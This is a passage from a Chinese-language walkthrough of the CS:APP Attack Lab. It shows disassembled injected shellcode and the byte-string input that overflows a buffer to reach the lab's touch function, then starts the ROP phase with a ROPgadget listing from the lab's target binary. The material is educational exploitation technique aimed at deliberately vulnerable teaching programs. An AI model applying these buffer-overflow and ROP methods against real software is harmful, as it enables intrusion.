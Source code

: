 ```shell
[root@localhost target1]# objdump -d attack3.o 

attack3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	66 68 66 61          	pushw  $0x6166
   4:	66 68 39 37          	pushw  $0x3739
   8:	66 68 62 39          	pushw  $0x3962
   c:	66 68 35 39          	pushw  $0x3935
  10:	48 89 e7             	mov    %rsp,%rdi
  13:	68 fa 18 40 00       	pushq  $0x4018fa
  18:	c3                   	retq
```

得到最终的输入：

```shell
66 68 66 61 66 68 39 37
66 68 62 39 66 68 35 39
48 89 e7 68 fa 18 40 00 
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

执行：

![image-20220809180142844](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/202208091801966.png)
=======


### ROP(phase 4)

​	这次的实验目标与phase 2相同，也是要调用touch2。不同之处在于，这次的目标程序rtarget被编译为随机栈地址和栈不可执行，因此之前CI的攻击方法失效，需要另找方法实现。其实这里的要求就是ROP的方法实现。

​	回忆一下为了调用touch2，需要做的事情：

* 输入cookie

* 将cookie从栈上放入rdi
* 覆盖栈上的返回地址

由于无法注入代码，那么为了操控寄存器，只能利用已有的指令，提示已经明确指出攻击所需要用到的gadgets都在start_farm和end_farm之间，因此可以看一下这个范围里的指令有哪些，这里我们借助工具（ROPgadget， 地址https://github.com/JonathanSalwan/ROPgadget.git）看一下（注意这里显示的指令是intel格式的）：

```shell
[root@VM target1]# ROPgadget --binary ./rtarget --range 0x401994-0x401ab2|grep -E 'mov|pop'
0x0000000000401998 : add bl, al ; mov eax, 0x909078fb ; ret
0x0000000000401996 : add byte ptr [rax], al ; add bl, al ; mov eax, 0x909078fb ; ret
0x0000000000401a8f : cmp al, 0xc3 ; mov eax, 0xc020ce88 ; ret
0x0000000000401a6c : fcmovnb st(0), st(3) ; mov dword ptr [rdi], 0xc391d189 ; ret
0x00000000004019f4 : fcmovnb st(0), st(3) ; mov eax, 0xc048d189 ; ret
0x0000000000401a31 : fcmovnb st(0), st(3) ; mov eax, 0xc938d189 ; ret
0x0000000000401a08 : loopne 0x4019cd ; mov dword ptr [rdi], 0xc908c288 ; ret
0x0000000000401a92 : mov dh, cl ; and al, al ; ret
0x0000000000401a0c : mov dl, al ; or cl, cl ; ret
0x00000000004019e1 : mov dword ptr [rdi], 0x9090d199 ; ret
0x00000000004019c3 : mov dword ptr [rdi], 0x90c78948 ; ret
0x0000000000401aab : mov dword ptr [rdi], 0x90e08948 ; ret
0x0000000000401a5a : mov dword ptr [rdi], 0x91e08948 ; ret
0x00000000004019b5 : mov dword ptr [rdi], 0x9258c254 ; ret
0x00000000004019fc : mov dword ptr [rdi], 0xc084d181 ; ret
0x0000000000401a97 : mov dword ptr [rdi], 0xc2e08948 ; ret
0x0000000000401a6e : mov dword ptr [rdi], 0xc391d189 ; ret
```